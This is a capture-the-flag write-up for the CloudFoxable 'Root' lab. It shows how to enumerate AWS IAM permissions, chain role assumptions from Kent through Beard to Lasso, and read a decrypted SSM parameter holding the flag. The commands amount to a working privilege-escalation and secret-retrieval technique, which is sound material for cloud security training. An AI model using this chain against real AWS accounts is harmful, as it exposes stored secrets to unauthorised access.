

# CloudFoxable - Root

Challenge link: https://cloudfoxable.bishopfox.com/challenges#Root-18



Let's create new profile for **`Kent`**:

```
[profile Kent]
region = us-west-2
role_arn = arn:aws:iam::ACCOUNTID:role/Kent
source_profile = cloudfoxable
```

This challenge is all about assuming role:

- cloudfox

```
cloudfox aws -p cloudfoxable permissions --principal Kent
```


- aws-cli

```
aws --profile cloudfoxable list-attached-role-policies --role-name Kent
```


As you can see role **`Kent`** only has **`sts:AssumeRole`** so we will need to find another role that we can assume. As the description describe, we will need to read **`root`** flag in SSM parameter store so let's list all parameters in SSM store first:

- cloudfox

```
cloudfox aws -p cloudfoxable secrets
```

Run that command and you will get the command to read **`root`** flag!

- aws-cli

```
aws --profile cloudfoxable ssm describe-parameters
```

Run that command and search for `root`

All 2 ways will lead us to parameter **`/production/CICD/root`**. Now we don't know what role will interact with this resource so again, let's list all and grep:

- cloudfox

```
cloudfox aws -p cloudfoxable permissions | grep root
```


- aws-cli

We will use the script from [here](https://github.com/nhtri2003gmail/CTFWriteup/tree/master/online/cloudfoxable/backwards#using-aws-cli), let it run and stop at notable thing:


Ahha! We found a role that interact with the param we want!

So the role we need to focus now is **`Lasso`**. Now we will want if this role assume as another role or not:

- cloudfox

```
cloudfox aws -p cloudfoxable role-trusts
```


- aws-cli

```
aws --profile cloudfoxable iam get-role --role-name Lasso
```


So if we are role **`Beard`**, we can assume that we are role **`Lasso`**. Currently, we are user **`ctf-starting-user`**, we can assume that we are role **`Kent`**. We have a simple relationship as follow:

```
                   assume
ctf-starting-user --------> Kent
Beard             --------> Lasso
```

But **`Kent`** can assume as enyone else because it has policy **`sts:AssumeRole`**, therefore **`Kent`** can assume that he is role **`Beard`** and we can connect the relationship as below:

```
                   assume         assume          assume
ctf-starting-user --------> Kent --------> Beard --------> Lasso
```

Now we will need to config profile to match that relationship:

```
[profile kent]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Kent
source_profile = cloudfoxable

[profile beard]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Beard
source_profile = kent

[profile lasso]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Lasso
source_profile = beard
```

Note that `role_arn` is the role we set for our profile, only `source_profile` is where we specify it assume as another role. We know the ssm param is **`/production/CICD/root`**, let's try to read that with profile **`lasso`**:

```
aws --profile lasso ssm get-parameter --with-decryption --name /production/CICD/root
```


Tadaaa! We got the flag now!